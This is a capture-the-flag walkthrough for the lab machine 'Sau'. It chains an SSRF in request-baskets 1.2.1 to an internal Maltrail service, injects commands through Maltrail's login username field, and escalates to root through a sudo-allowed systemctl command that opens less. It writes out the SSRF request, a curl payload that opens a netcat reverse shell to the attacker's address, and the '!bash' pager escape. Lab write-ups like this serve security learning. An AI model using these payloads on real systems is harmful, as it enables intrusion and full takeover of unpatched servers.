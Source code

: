 We add the machine to /etc/hosts:
	
	sudo su
	echo "10.10.11.224	sau.htb" >> /etc/hosts

We start the machine with a classical nmap scan (i started rustscan but didn't find much):
	
	nmap -p- sau.htb
output:
	
	PORT	STATE
	22 		open
	80		filtered
	8338	filtered
	55555	open
the two filtered ports are weired but for now we can't access them, better to continue enumerate...
we can visit the site on port 55555
we found a web service that permit us to create web basket.
The web site is hosted by this service:
	
	Powered by request-baskets | Version: 1.2.1
we can find an exploit online for this version;
in fact this site has already had a SSRF vulnerability when we create a basket.
The site permit us to choose the url to see when we visit the basket; we can set this whit a similar
request:
	
	POST /api/baskets/new_basket
	{	
		"forward_url":"http://127.0.0.1:8338/",
		"proxy_response":true,
		"insecure_tls":false,
		"expand_path":true,
		"capacity":200
	}
now we've created a basket that redirect us to the port that we couldn't see before.
When we visit the site we are redirected to a strange html page of "maltrail";
i didn't know this service so i googled it.
"Maltrail is an open-source network threat detection system that analyzes abnormal traffic and identifies potential cyber attacks." CHAT-GPT

so i searched for some exploit for this service and found this:
	
	https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
the poc is simple:
	
	curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
we can pass commands in the username field because the paramether is checked with
a subprocess.check_output().

we can modify the payload as follow to adapt it to our basket and settings:
	
	curl http://sau.htb:55555/new_basket/login --data 'username=;`busybox nc 10.10.14.239 4444 -e bash`'
the command execution was limited to some commands in fact only busybox netcat worked for me (maybe sth else will work)
to recive the revshell we need to start a listener (i use pwncat):
	
	python3 -m pwncat -lp 4444
WE ARE IN AS USER!
we submit the userflag and keepgoing.
we need to keep on with the enumeration and privesc(is actually pretty ez):
	
	sudo -l
output:
	
	(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
we can run the command as admin so i tried to search for systemctl exploit and i found this:
	
	https://gtfobins.github.io/gtfobins/systemctl/
the exploit is pretty simple and i leverage the fact that the systemctl is opened with less,
so we can use a classical less privesc (the script is runned as root with no password):
	
	sudo /usr/bin/systemctl status trail.service
(inside the interactiv less prompt we need to write):
	
	!bash
WE ARE NOW ROOT!!
